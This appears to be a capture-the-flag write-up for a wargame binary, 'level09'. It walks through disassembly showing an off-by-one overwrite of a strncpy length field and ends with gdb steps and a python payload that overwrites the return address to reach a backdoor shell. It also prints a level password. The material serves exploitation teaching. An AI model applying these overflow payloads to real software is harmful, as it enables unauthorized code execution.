 ## level09

	username: level09
	password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

### Mitigations applied:

```
$ checksec --file level09
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   level09
```

### Usage:

```
$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: admin
>: Welcome, admin
>: Msg @Unix-Dude
>>: Heelloooooo
>: Msg sent!
```

### Analysis:

We have five functions: `main()`, `handle_msg()`, `set_username()`, `set_msg()` and `secret_backdoor()`

`main` calls `handle_msg()`.

```
/*
   0x0000555555554ab8 <+16>:	call   0x5555555548c0 <handle_msg>
 */
handle_msg();
```

`handle_msg` creates a buffer of 180 bytes, zeros out the last 40 bytes.

```
char	buf[0xb4];		/* rbp-0xc0 */

/*
   0x00005555555548cb <+11>:	lea    rax,[rbp-0xc0]
   0x00005555555548d2 <+18>:	add    rax,0x8c
   0x00005555555548d8 <+24>:	mov    QWORD PTR [rax],0x0
   0x00005555555548df <+31>:	mov    QWORD PTR [rax+0x8],0x0
   0x00005555555548e7 <+39>:	mov    QWORD PTR [rax+0x10],0x0
   0x00005555555548ef <+47>:	mov    QWORD PTR [rax+0x18],0x0
   0x00005555555548f7 <+55>:	mov    QWORD PTR [rax+0x20],0x0
 */
memset(buf+0x8c, 0x0, 0x28);
```

Then calls `set_username()` with the buffer as argument.

```
/*
   0x0000555555554906 <+70>:	lea    rax,[rbp-0xc0]
   0x000055555555490d <+77>:	mov    rdi,rax
   0x0000555555554910 <+80>:	call   0x5555555549cd <set_username>
 */
set_username(buf);
```

After that it calls `set_msg()` with the buffer as argument.

`set_username` prompts the user for input.

```
/*
   0x0000555555554a1c <+79>:	mov    rax,QWORD PTR [rip+0x201595]        # 0x555555755fb8
   0x0000555555554a23 <+86>:	mov    rax,QWORD PTR [rax]
   0x0000555555554a26 <+89>:	mov    rdx,rax
   0x0000555555554a29 <+92>:	lea    rax,[rbp-0x90]
   0x0000555555554a30 <+99>:	mov    esi,0x80
   0x0000555555554a35 <+104>:	mov    rdi,rax
   0x0000555555554a38 <+107>:	call   0x555555554770 <fgets@plt>
 */
fgets(s, 0x80, stdin);
```

Then stores it in the last 40 bytes of the buffer.

```
while (i <= 0x28 && s[i] != 0x0)
{
	/*
	   0x0000555555554a46 <+121>:	mov    eax,DWORD PTR [rbp-0x4]
	   0x0000555555554a49 <+124>:	cdqe
	   0x0000555555554a4b <+126>:	movzx  ecx,BYTE PTR [rbp+rax*1-0x90]
	   0x0000555555554a53 <+134>:	mov    rdx,QWORD PTR [rbp-0x98]
	   0x0000555555554a5a <+141>:	mov    eax,DWORD PTR [rbp-0x4]
	   0x0000555555554a5d <+144>:	cdqe
	   0x0000555555554a5f <+146>:	mov    BYTE PTR [rdx+rax*1+0x8c],cl
	   0x0000555555554a66 <+153>:	add    DWORD PTR [rbp-0x4],0x1
	 */
	buf[i + 0x8c] = s[i];
	++i;
}
```

> The problem here is the index `i` goes from `0` to `0x28`, the position `0x28` is outside the buffer, which leads to overwriting the variable next to it.

`set_msg` take user input using `fgets()`

```
/*
   0x0000555555554981 <+79>:	mov    rax,QWORD PTR [rip+0x201630]        # 0x555555755fb8
   0x0000555555554988 <+86>:	mov    rax,QWORD PTR [rax]
   0x000055555555498b <+89>:	mov    rdx,rax
   0x000055555555498e <+92>:	lea    rax,[rbp-0x400]
   0x0000555555554995 <+99>:	mov    esi,0x400
   0x000055555555499a <+104>:	mov    rdi,rax
   0x000055555555499d <+107>:	call   0x555555554770 <fgets@plt>
 */
fgets(s, 0x400, stdin);
```

The input is copied to the begining of the buffer using `strncpy()`

```
/*
   0x00005555555549a2 <+112>:	mov    rax,QWORD PTR [rbp-0x408]
   0x00005555555549a9 <+119>:	mov    eax,DWORD PTR [rax+0xb4]
   0x00005555555549af <+125>:	movsxd rdx,eax
   0x00005555555549b2 <+128>:	lea    rcx,[rbp-0x400]
   0x00005555555549b9 <+135>:	mov    rax,QWORD PTR [rbp-0x408]
   0x00005555555549c0 <+142>:	mov    rsi,rcx
   0x00005555555549c3 <+145>:	mov    rdi,rax
   0x00005555555549c6 <+148>:	call   0x555555554720 <strncpy@plt>
 */
strncpy(buf, s, (size_t)*((int*)(buf+0xb4)));
```

Normally `strncpy` is a secure function as it takes as third argument the length `n` to be copied.

The problem here is the way `n` is fetched, they access the buffer at index `0xb4` wich is its size, this allow to access the variable next to it.

This, combined with what we've seen earlier about being able to overwrite one byte of this variable in `set_username`, allows us to control `n` which leads to a buffer overflow.

This way we can overwrite the retrun address (eip) of `handle_msg()` and control the execution flow.

### Exploit

To verify that we can overwrite the `eip`, we started gdb and set a breakpoint at `ret` instruction in `handle_msg()`.

```
$ gdb ./level09
(gdb) b *handle_msg + 113
(gdb) r < <(python -c 'print("A"*40+"\xff\n"+"B"*200+"CCCCCCCC")')
```

When the execution stops at the breakpoint, we examined the stack as the address at the top of the stack is where the next instruction is. We can see that it has been changed.

```
Breakpoint 2, 0x0000555555554931 in handle_msg ()
(gdb) x/xg $rsp
0x7fffffffe5d8:	0x4343434343434343
```

All that's left to do is get the address of `secret_backdoor()`.

```
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

```
$ (python -c 'print("A"*40+"\xff\n"+"\x90"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00")';cat) | ./level09
...
whoami
end
```
